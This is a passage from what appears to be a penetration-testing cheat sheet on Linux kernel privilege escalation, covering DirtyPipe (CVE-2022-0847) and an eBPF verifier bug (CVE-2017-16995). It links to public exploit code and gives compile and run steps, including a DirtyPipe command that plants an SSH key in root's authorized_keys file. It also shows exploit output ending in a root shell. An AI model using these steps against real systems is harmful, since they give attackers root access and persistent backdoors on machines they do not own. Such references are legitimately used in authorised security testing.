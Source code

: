 ## DirtyPipe - Linux Kernel <= 5.8

`DirtyPipe` allows overwriting data in arbitrary read-only files that leverages to a privilege escalation due to unprivileged process can inject code into root processes. It is similar to `DirtyC0w`.

Download the exploit from the following repository [https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/compile.sh](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/compile.sh). Compile it:

```bash
gcc exploit.c -o dirtypipe
```
Transfer the exploit to the target machine and execute it.

```
./dirtypipe /root/.ssh/authorized_keys 1 $'\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCo4ILTzBpODN8ubP+Qe3rhWgiPQqldRbCkkdcQb3vChet2SIVr3dM4Y5RQ11cYas1+bPT99nEuu++G7SiEN3juWhK3ymb9g+vC3DdACQbxsUhG4octS1K1N3D4grijfH9YfDoYW37VafhNE6PBa2mZu8KMBlTYRLOw1fP02ncZt0PFiYS0tD2lrKvr2nFBNDrJhRtHtMf6YUjlLEb7p2br/z4P40z0vNr2YpEDpTEorW6RTZ802DlinSMpCdkt\n'
```
* [https://dirtypipe.cm4all.com/](https://dirtypipe.cm4all.com/)
* [https://github.com/rahul1406/cve-2022-0847dirtypipe-exploit](https://github.com/rahul1406/cve-2022-0847dirtypipe-exploit)


## eBPF\_verifier - Linux Kernel < 4.13.9

```bash
$ gcc cve-2017-16995.c -o cve-2017-16995
$ chmod +x cve-2017-16995

$ ./cve-2017-16995
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88002dc42800
[*] Leaking sock struct from ffff88003d00d400
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800354a0600
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff8800354a0600
[*] credentials patched, launching shell...

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

* [https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)
